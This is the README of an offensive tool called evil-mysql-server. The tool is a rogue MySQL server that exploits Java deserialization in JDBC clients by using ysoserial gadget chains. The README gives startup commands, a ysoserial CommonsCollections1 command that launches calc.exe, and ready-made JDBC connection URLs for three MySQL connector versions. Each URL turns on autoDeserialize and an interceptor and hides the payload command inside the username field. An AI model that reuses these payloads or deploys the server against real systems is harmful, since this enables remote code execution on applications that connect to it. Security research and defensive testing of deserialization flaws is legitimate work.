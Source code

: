# evil mysql server

English | [简体中文](./README-zh_CN.md)

## Introduction

**evil-mysql-server** is a malicious database written to target jdbc deserialization vulnerabilities and requires ysoserial.

Usage

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

After successful startup use jdbc to connect, where the username format is `yso_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url examples

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## Thanks

Thanks to the following projects for the inspiration

- [!MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)
